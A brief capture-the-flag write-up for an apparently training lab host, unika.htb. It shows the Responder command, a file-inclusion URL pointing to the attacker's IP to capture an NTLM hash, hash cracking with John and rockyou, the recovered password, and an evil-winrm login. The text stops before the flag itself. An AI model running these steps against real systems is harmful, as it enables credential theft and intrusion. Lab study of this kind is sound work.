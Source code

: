 What is the password for the administrator user?

To find the password i run this command

> sudo python3 Responder.py -I tun0

then found the Ip address of the responder and run this command on the unika web page

> http://unika.htb/index.php?page=//10.10.15.212/somefile

and got this 

![resadmin](/assets/img/resadmin.png)

i then made a subl hash file and pasted the above text.

> john --wordlist=/usr/share/wordlists/rockyou.txt hash

and by running the following commnand we get the password.

- badminton

SUBMIT FLAG 

to get the flag i installed evil-winrm and entered the username and pasword.
Then we get into the user directory and display the contents in the user directory using dir command. Then i got into the mike directory and displayed its contents and inside it was desktop directory which contained the flag.txt and the flag is 
